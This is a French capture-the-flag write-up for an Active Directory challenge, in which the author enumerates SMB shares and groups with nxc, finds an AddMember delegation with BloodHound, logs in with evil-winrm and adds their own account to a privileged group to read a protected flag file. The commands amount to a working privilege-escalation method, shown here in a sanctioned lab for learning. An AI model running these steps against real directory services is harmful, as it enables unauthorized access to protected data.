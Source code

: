 # Ghost Membership
``Facile``

``HF47``

> Dans les modules internes de la station où l’accès est finement calibré, chaque autorité est transmise avec prudence. Mais au fil des ajustements, un écart imperceptible s’est glissé dans les mécaniques de délégation. Invisibles à l’œil nu, certains chemins ne respectent plus les règles prévues. En traçant cette dérive, peut-être découvrirez-vous une brèche enfouie au cœur du protocole.

> Les comptes formation et Administrateur et le groupe CTF_Player ne font pas partie du périmètre du challenge. Il est strictement interdit d'essayer de les compromettre. Les comptes et/ou groupes spécifiques au challenge sont identifiés par CTF ou indiqués dans l'énoncé. En cas de doute, contactez un administrateur.

``Adresse IP : 51.89.230.87``

Pas d'utilisateurs particuliers, mais un partage "flagshare"

```
└─$ nxc smb 51.89.230.87 -u 'lys377967_404Player' -p '<password>' --shares
SMB         51.89.230.87    445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         51.89.230.87    445    DC1              [+] ctfcorp.local\lys377967_404Player:<password> 
SMB         51.89.230.87    445    DC1              [*] Enumerated shares
SMB         51.89.230.87    445    DC1              Share           Permissions     Remark
SMB         51.89.230.87    445    DC1              -----           -----------     ------
SMB         51.89.230.87    445    DC1              ADMIN$                          Remote Admin
SMB         51.89.230.87    445    DC1              C$                              Default share
SMB         51.89.230.87    445    DC1              flagshare       READ            
SMB         51.89.230.87    445    DC1              IPC$                            Remote IPC
SMB         51.89.230.87    445    DC1              NETLOGON        READ            Logon server share 
SMB         51.89.230.87    445    DC1              SYSVOL          READ            Logon server share 
```

Il y a un fichier flag.txt dedans, mais je n'ai pas le droit de le récupérer.

En regardant les groupes, on remarque qu'il y a deux groupes qui se distinguent des autres.

```
└─$ nxc smb 51.89.230.87 -u 'lys377967_404Player' -p '<password>' --groups
SMB         51.89.230.87    445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         51.89.230.87    445    DC1              [+] ctfcorp.local\lys377967_404Player:<password> 
SMB         51.89.230.87    445    DC1              [+] Enumerated domain group(s)
SMB         51.89.230.87    445    DC1              CTF_Flag                                 membercount: 27
SMB         51.89.230.87    445    DC1              CTF_Player                               membercount: 51

```

(51 : le nombre de personnes qui ont créé un compte au moment où j'ai écrit le wu)

Il y a l'air d'y avoir moins de membres dans CTF_Flag. Peut-être que je ne fais pas partie de ce groupe, mais je pourrai récupérer flag.txt si j'y arrive.



A posteriori, j'ai utilisé [Bloodhound](https://beta.hackndo.com/bloodhound/) pour voir à quels groupes j'appartiens et si une exploitation est possible.

Je fais partie de CTF_Player et Domain_Users.

![alt text](memberof.png)

En regardant dans ``OUTBOUND OBJECT CONTROL/Group Delegated Object Control``, il se trouve que les membres de CTF_Player peuvent devenir membre de CTF_Flag ! 

![alt text](addmember.png)

AddMember permet de me rajouter à un groupe.
https://www.thehacker.recipes/ad/movement/dacl/addmember


Je peux me connecter avec Evil-WinRM 

```
evil-winrm -i 51.89.230.87 -u 'lys377967_404Player' -p '<password>'
```
En utilisant Powershell, je me rajoute au groupe CTF_Flag avec la commande ``Add-ADGroupMember`` qui permet de rajouter un ou plusieurs membres à un groupe AD.
```
Add-ADGroupMember -Identity "CTF_Flag" -Members "lys377967_404Player"
```

Pour vérifier que je suis bien membre : 

```
Get-ADGroupMember -Identity 'CTF_Flag'
```

Je peux maintenant consulter le flag.txt dans flagshare. 

404CTF{Wr1t3_M3mb3r5_1s_D4ng3r0us_R1ght!}

 (Bloodhound n'était pas essentiel, mais c'est un bon réflexe de l'utiliser puisqu'il donne les étapes d'une exploitation.)